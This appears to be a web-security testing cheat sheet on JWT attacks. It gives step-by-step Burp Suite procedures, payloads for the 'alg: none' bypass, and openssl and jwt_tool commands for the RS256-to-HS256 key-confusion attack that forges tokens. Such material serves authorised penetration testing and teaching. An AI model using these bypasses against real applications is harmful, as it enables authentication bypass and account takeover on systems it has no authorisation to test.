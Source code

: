 1. **Check for sensitive data in the JWT**

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Switch to JSON Web Token Tab 
4. Check if any user info or any sensitive info is there in payload section.
5. Done!
```

2. ****None algorithm****

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Switch to JSON Web Token Tab or JOSEPH which also contains bypass
4. Change "alg:" to none "alg:none"  
		{
		  "alg": "none",
		  "typ": "JWT"
		}
5. Change the Payload and edit the signature to empty
		Signature = ""
6. Forward the Request. Done!

Using JWT_Tool.
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Use Below command to get different bypass payload to try , replace <JWT> with your JWT token.
		"python3 jwt_tool.py <JWT> -X a"
4. Use Different Payloads Generated by tool in your request, see if any of it works.
5. Change you Payload value to desire with the token that worked and Done!
```

3. ****Change algorithm from RS256 to HS256****

```python
Note: This Attack will convert the workflow from Asymmetric to Symmetric encryption and now we can sign the new tokens with the same public key.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Get the Public key from the Application (pubkey.pem file) using below commands.
		"openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem"
		"openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem"
																OR
		"openssl s_client -connect zonksec.com:443 | openssl x509 -pubkey -noout"
4. Then use below command to generate JWT token.
		"python3 jwt_tool.py <JWT> -S hs256 -k pubkey.pem"
5. Use the generated token in the request and try changing payload.
6. Done, Forward the request.

* This will work when web app support both algorithm.
```
